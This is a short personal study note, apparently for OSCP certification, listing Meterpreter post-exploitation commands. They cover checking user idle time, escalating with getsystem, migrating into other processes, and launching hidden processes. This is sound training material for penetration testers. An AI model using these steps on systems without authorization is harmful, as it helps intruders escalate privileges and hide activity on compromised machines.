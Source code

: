 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/11-metasploit-framework/5-meterpreter-post-exploitation/","updated":"2024-01-05T11:36:32.591+01:00"}
---
```


------
### User activity on target:
```
idletime
```

### Getsystem:
```
getsystem
```
------------
### Process Tampering:

Process Injection
- Can only migrate to same or lower privs
- New shell will inherit that process' privileges and user
```
#Enumerate processes:
ps

#Inject process:
migrate <pid>
```

Create new process:
- -H for hidden
- -F to specify program to run
```
execute -H -f notepad
```


